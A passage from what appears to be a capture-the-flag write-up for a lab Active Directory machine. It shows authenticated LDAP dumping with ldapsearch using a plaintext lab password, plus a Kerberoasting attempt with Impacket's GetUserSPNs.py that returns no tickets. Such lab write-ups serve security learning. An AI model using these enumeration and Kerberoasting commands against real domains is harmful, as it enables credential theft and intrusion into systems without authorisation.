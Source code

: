 ## Access as audit2020

### Enumeration Fails

#### SMB

I connected to each of the three shares:
- `profiles$` still had the same directories, all empty.
- `NETLOGON` was completely empty.
- `SYSVOL` had five files, but none of them provided anything useful to me.

#### LDAP

These creds will work to authenticate to LDAP, but I didn’t find anything interesting. I’ll do the same `query` I ran above, adding in `-D support@blackfield.local` and -`w ''#00^BlackKnight'`:

```

root@kali# ldapsearch -h 10.10.10.192 -b "DC=BLACKFIELD,DC=local" -D 'support@blackfield.local' -w '#00^BlackKnight' > support_ldap_dump

```

The results were over 20-thousand lines long:

```

root@kali# wc -l support_ldap_dump 
20358 support_ldap_dump

```

I didn’t find anything particularly useful. I did get the name of the domain controller, `DC01`, which I’ll use in a minute.

```

# DC01, Domain Controllers, BLACKFIELD.local
dn: CN=DC01,OU=Domain Controllers,DC=BLACKFIELD,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
objectClass: computer
cn: DC01

```

#### Kerberoasting

Now that I have valid domain creds, I tried to Kerberoast, but no tickets came back:

```

root@kali# GetUserSPNs.py -request -dc-ip 10.10.10.192 'blackfield.local/support:#00^BlackKnight'
Impacket v0.9.22.dev1+20200422.223359.23bbfbe1 - Copyright 2020 SecureAuth Corporation

No entries found!

```
